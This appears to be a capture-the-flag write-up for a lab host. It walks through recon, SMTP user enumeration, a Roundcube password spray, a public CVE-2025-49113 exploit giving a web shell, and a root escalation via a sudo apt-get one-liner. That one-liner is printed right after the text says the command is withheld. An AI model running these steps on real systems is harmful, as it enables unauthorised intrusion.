


# Aftermath Writeup

**Difficulty:** Easy
**Target:** 10.1.202.56
**Objective:** Gain root access and retrieve the three planted flags.

---

## Recon

### Port Scan

    nmap -sCV 10.1.202.56

Three ports were open. The host was up with the default scripts run:

    22/tcp   open  ssh   OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
    25/tcp   open  smtp  Postfix smtpd
    80/tcp   open  http  Apache httpd 2.4.52 (Ubuntu)

The SMTP service advertised the VRFY command, which made the username check in the next section possible. The certificate common name and SMTP banner both showed the hostname as `kali`. The OS was reported as Linux.

### Directory Enumeration

    gobuster dir -u http://10.1.202.56 -w /usr/share/wordlists/dirb/big.txt

    .htpasswd (Status: 403)
    .htaccess (Status: 403)
    roundcube (Status: 301) --> http://10.1.202.56/roundcube/

The only application found was Roundcube under `/roundcube/`. The two 403 results are the standard Apache hidden-file responses and were not investigated further.

### Roundcube Login Page

The login page at `http://10.1.202.56/roundcube/` was checked by viewing its source. The page sets `rcversion` to 10509, which corresponds to Roundcube 1.5.9. The source also links to a password reset page at `/roundcube/1258dwd34xyz8ffwrt86ff4.php`. The reset form asks for a "Username or email", so the username format was not yet known.

### Mail Service Enumeration

The mail server on port 25 was queried with VRFY (advertised in the nmap output) using the supplied `names.txt` list:

    smtp-user-enum -M VRFY -U names.txt -t 10.1.202.56

Two names were confirmed:

    10.1.202.56: maria exists
    10.1.202.56: kali exists

The `kali` result should be treated with caution. A server that answers "exists" for every query would produce the same output, so only `maria` was used for the next step.

---

## Credential Access

The supplied `passwords.txt` (29 entries) was tried against the Roundcube login. A first attempt to spray all 500 first names with the top five passwords timed out and produced no usable output, so the run was narrowed to the two VRFY-confirmed names.

Against `maria`, the password `1qaz2wsx` returned a successful login (HTTP 302 to the mail view), with no "Login failed." message in the response.

---

## Initial Access: Mailbox

The INBOX for `maria` contained one message, "Email Flag", from `ctf@localdomain`. The message body contained the initial access flag, which was submitted as the answer to the first question.

**Initial access flag: `flag{roundcube_mail_5****`**

---

## Roundcube Exploitation (CVE-2025-49113)
Poc: git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit.git

The Roundcube version reported by the login page was 10509 (1.5.9). The public proof-of-concept for CVE-2025-49113, a post-authentication remote code execution issue, was run with the `maria` credentials. The tool reported the target as vulnerable and the login as successful, then uploaded its gadget.

A callback from the target was received on the listener and gave a shell as `www-data`.

The exact exploit command and payload are not reproduced here.

---

## Post-Exploitation

After the shell was established as `www-data`, the user flag was found in the `/usr` directory. The file is `user.txt`, owned by root and world-readable.

## Privilege Escalation

The `www-data` account had a sudo rule allowing one binary to run without a password:

    sudo -l

    User www-data may run the following commands on kali:
        (ALL) NOPASSWD: /usr/bin/apt-get

Because `apt-get` accepts configuration options that can run commands, this rule allowed the shell user to run commands as root. Running a command through this rule gave a root shell, which was confirmed with `whoami` returning `root`.

The exact command used to abuse this rule is not reproduced here. The rule itself, `NOPASSWD` on `/usr/bin/apt-get`, is the finding.

Run the following command in your current shell:

    sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

The root flag was read from `/root/root.txt` once root access was confirmed.

---

## Flags

**Initial access flag: `flag{roundcube_mail_5****`**
**User flag: `flag{user_2345_c****`**
**Root flag: `flag{toor_ 55000369_r****`**